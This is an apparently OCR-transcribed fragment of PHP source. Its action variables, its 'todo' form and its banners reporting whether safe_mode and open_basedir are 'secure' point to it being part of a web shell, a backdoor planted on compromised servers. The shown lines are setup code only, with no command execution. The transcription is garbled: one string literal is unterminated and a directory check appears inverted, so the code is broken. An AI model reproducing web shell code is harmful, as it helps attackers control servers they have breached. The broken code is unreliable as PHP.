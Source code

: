 header("Cache-Control: post-check=0, pre-check=0", FALSE);
header("Pragma: no-cache");
if (empty($tmpdir))
{
 $tmpdir = ini_get("upload_tmp_dir");
 if (is_dir($tmpdir)) {$tmpdir = "/tmp/";}
}
$tmpdir = realpath($tmpdir);
$tmpdir = str_replace("\",DIRECTORY_SEPARATOR,$tmpdir);
if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;}
if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;}
else {$tmpdir_logs = realpath($tmpdir_logs);}
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on")
{
 $safemode = TRUE;
 $hsafemode = "&lt;font color=red&gt;ON (secure)&lt;/font&gt;";
}
else {$safemode = FALSE; $hsafemode = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";}
$v = @ini_get("open_basedir");
if ($v or strtolower($v) == "on") {$openbasedir = TRUE; $hopenbasedir = "&lt;font color=red&gt;".$v."&lt;/font&gt;";}
else {$openbasedir = FALSE; $hopenbasedir = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";}
$sort = htmlspecialchars($sort);
if (empty($sort)) {$sort = $sort_default;}
$sort[1] = strtolower($sort[1]);
$DISP_SERVER_SOFTWARE = getenv("SERVER_SOFTWARE");
if (!ereg("PHP/".phpversion(),$DISP_SERVER_SOFTWARE)) {$DISP_SERVER_SOFTWARE .= ". PHP/".phpversion();}
$DISP_SERVER_SOFTWARE = str_replace("PHP/".phpversion(),"&lt;a href=\"#\" onclick=\"document.todo.act.value='phpinfo';document.todo.submit();\"&gt;&lt;b&gt;&lt;u&gt;PHP/".phpversion()."&lt;/u&gt;&lt;/b&gt;&lt;/a&gt;",htmlspecialchars($DISP_SERVER_SOFTWARE));
@ini_set("highlight.bg",$highlight_bg); //FFFFFF
@ini_set("highlight.comment",$highlight_comment); //#FF8000
@ini_set("highlight.default",$highlight_default); //#0000BB
@ini_set("highlight.html",$highlight_html); //#000000
@ini_set("highlight.keyword",$highlight_keyword); //#007700
@ini_set("highlight.string",$highlight_string); //#DD0000
if (!is_array($actbox)) {$actbox = array();}
$dspact = $act = htmlspecialchars($act);
$disp_fullpath = $ls_arr = $notls = null;
$ud = urlencode($d);